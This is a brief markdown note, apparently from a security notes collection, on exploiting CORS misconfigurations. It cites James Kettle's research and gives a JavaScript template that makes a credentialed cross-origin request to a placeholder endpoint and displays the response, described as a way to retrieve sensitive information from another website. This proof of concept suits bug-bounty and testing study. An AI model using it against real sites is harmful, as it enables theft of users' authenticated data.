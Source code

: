 ## References -

- [Exploiting CORS misconfigurations for Bitcoins and bounties by James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

## Template code to retreive -

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://website.com/endpoint', true);
req.withCredentials = true;
req.send('{}');

function reqListener() {
    alert(this.responseText);
};
```

Run this code in console to retreive the sensitive info from other website.
